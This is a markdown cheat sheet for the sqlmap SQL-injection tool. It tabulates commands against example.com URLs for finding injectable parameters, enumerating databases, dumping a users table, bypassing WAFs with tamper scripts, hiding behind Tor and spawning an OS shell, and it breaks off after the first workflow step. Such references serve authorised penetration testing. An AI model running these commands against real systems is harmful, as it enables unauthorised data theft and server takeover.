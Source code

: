 # SQLmap Cheat Sheet
SQLmap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications.

| Command                                   | Description                                                        | Example                                                            | Used For                              |
|-------------------------------------------|--------------------------------------------------------------------|--------------------------------------------------------------------|---------------------------------------|
| `sqlmap -u [URL]`                         | Basic usage, target a URL for SQL injection detection.             | `sqlmap -u "http://example.com/vulnerable.php?id=1"`                | Detecting SQL injection vulnerabilities |
| `sqlmap -u [URL] --data="[POST data]"`     | Use POST data for SQL injection testing.                           | `sqlmap -u "http://example.com/login.php" --data="user=admin&pass=1234"` | Testing POST parameters               |
| `sqlmap -u [URL] --cookie="[cookie]"`      | Specify cookie for authentication or session management.          | `sqlmap -u "http://example.com/dashboard" --cookie="PHPSESSID=abcd1234"` | Using cookies for authenticated tests |
| `sqlmap -u [URL] --dbs`                   | Enumerates databases on the target.                                | `sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs`          | Database enumeration                  |
| `sqlmap -u [URL] --tables -D [database]`   | Enumerates tables in a specific database.                         | `sqlmap -u "http://example.com/vulnerable.php?id=1" --tables -D mydb` | Table enumeration                     |
| `sqlmap -u [URL] --columns -D [database] -T [table]` | Enumerates columns in a specific table.                        | `sqlmap -u "http://example.com/vulnerable.php?id=1" --columns -D mydb -T users` | Column enumeration                    |
| `sqlmap -u [URL] --dump -D [database] -T [table]` | Dumps data from a specific table.                                  | `sqlmap -u "http://example.com/vulnerable.php?id=1" --dump -D mydb -T users` | Data extraction                       |
| `sqlmap -u [URL] --technique=[technique]`  | Specify the injection technique (e.g., boolean-based, time-based). | `sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=BEUST` | Selecting specific attack techniques  |
| `sqlmap -u [URL] --level=[level]`          | Set the level of tests to be performed (1-5, higher = more tests). | `sqlmap -u "http://example.com/vulnerable.php?id=1" --level=5`      | Adjusting test depth                  |
| `sqlmap -u [URL] --risk=[risk]`            | Set the risk level (1-3, higher = more intrusive tests).          | `sqlmap -u "http://example.com/vulnerable.php?id=1" --risk=3`       | Adjusting risk of tests               |
| `sqlmap -u [URL] --threads=[number]`       | Set the number of threads for parallel execution.                  | `sqlmap -u "http://example.com/vulnerable.php?id=1" --threads=10`   | Speeding up the attack                |
| `sqlmap -u [URL] --time-sec=[seconds]`     | Set the delay between requests for time-based injections.         | `sqlmap -u "http://example.com/vulnerable.php?id=1" --time-sec=5`    | Fine-tuning time-based injections     |
| `sqlmap -u [URL] --batch`                  | Runs SQLmap automatically, skipping user interaction.              | `sqlmap -u "http://example.com/vulnerable.php?id=1" --batch`        | Automatic operation without prompts   |
| `sqlmap -u [URL] --tor`                    | Use Tor network for anonymity while testing.                      | `sqlmap -u "http://example.com/vulnerable.php?id=1" --tor`          | Anonymizing the attack                |
| `sqlmap -u [URL] --tamper=[script]`        | Use a tamper script to bypass WAF or other defenses.              | `sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=space2comment` | Bypassing defenses                   |
| `sqlmap -u [URL] --os-shell`               | Attempt to gain an operating system shell on the target machine. | `sqlmap -u "http://example.com/vulnerable.php?id=1" --os-shell`     | OS-level access after SQL injection   |

## Common SQLmap Workflow

1. **Basic SQL Injection Test**
```bash
sqlmap -u "http://example.com/vulnerable.php?id=1"
```